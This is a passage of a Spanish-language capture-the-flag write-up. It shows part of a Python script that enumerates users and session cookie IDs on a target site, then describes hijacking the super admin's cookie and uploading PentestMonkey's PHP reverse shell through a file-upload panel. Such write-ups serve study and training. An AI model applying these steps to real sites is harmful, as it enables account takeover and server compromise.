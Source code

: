 ```python
        username = re.findall(r'</td><td>(.*?)</td><td>',r.text)[0]
        cookieId = re.findall(r'<tr><td>(.*?)</td><td>',r.text)[0]

        if username != '' and cookieId != '':
            print("[+] User: %11s    UrlId: %.2d    CookieId: %.7s" % (username,i,cookieId))
    
    log.success("Escaneo completado")

if __name__ == "__main__":
    try:
        makeRequests()
    except:
        log.failure("No se ha podido escanear la web")
```

Lo ejecutaremos y veremos lo siguiente:

```plaintext
File: webUsers

[x] Empezando escaneo
[+] User:       admin    UrlId: 01    CookieId: 34322
[+] User:        john    UrlId: 04    CookieId: 8832
[+] User:       Peter    UrlId: 13    CookieId: 57633
[+] User:       Rafol    UrlId: 23    CookieId: 28832
[+] User: super admin    UrlId: 30    CookieId: 86575
[+] Escaneo completado
```

Podemos ver que uno de los usuarios que se lista es super admin, justo el usuario que necesitábamos ser para subir archivos en la pestaña uploads.

<br>

### Cookie Hijacking
Mediante la extensión [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) de Google Chrome podremos hacer un Cookie Hijacking y convertirnos en el usuario SuperAdministrador, lo que nos dará acceso a la subida de archivos:

<img src="https://i.imgur.com/ZNbI3sQ.png" width="400"/>

<br>

<img src="https://i.imgur.com/ibqIUlE.png" width="700"/>

<br>

### File Upload Vulnerability
Yo he decidido usar la reverse shell PHP de [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), ya que es una reverse shell bastante robusta y fiable para paneles de subida de archivos.

Una vez subido el archivo, tendremos que buscar el directorio en el que se alojará nuestro script para comprobar si el código PHP se está interpretando en el lado del servidor.
